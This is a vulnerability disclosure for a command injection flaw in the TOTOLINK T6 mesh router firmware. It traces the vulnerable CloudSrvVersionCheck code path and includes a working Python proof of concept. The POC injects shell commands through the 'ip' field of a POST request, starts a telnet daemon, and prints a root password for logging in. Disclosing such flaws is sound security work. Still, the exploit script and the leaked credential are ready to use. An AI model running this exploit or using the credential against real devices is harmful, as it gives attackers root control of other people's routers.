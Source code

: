 # [2025-7613](https://www.cve.org/CVERecord?id=CVE-2025-7613)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a command injection vulnerability. This vulnerability can be triggered through the topicurl `CloudSrvVersionCheck`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

Here is the code that handle request to topicurl `CloudSrvVersionCheck`. If `type` is 1, the `ip` parameter is passed to funcion `safe_cs_pub` as the first param

![image-1](4/1.png)

Function `safe_cs_pub` pass first param (domain) to `tcpcheck_net` function for further processing

![image-2](4/2.png)

In `tcpcheck_net` function, there is a command injection vulnerability. Program use call `tcpcheck` with system. If we can control `domain` param, we can inject the code to `system`

![image-3](4/3.png)

# POC

```python
import requests, time, sys, os

def execute_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"CloudSrvVersionCheck",
        "type":"1",
        "ip":";%s;"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("[-] Usage: <%s> target_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    
    print("[+] Try telnet %s with root/KL@UHeZ0. Also check '/tmp/hacked'" % target_ip)
    execute_command(target_ip, "telnetd; echo Pwned by Elvis > /tmp/hacked")
```

[Video](https://www.youtube.com/watch?v=MMIggqnj28E)

# Credits

[Reisen_1943](https://anduinbrian.github.io/). He helped me to setup the device and found the login information for root account.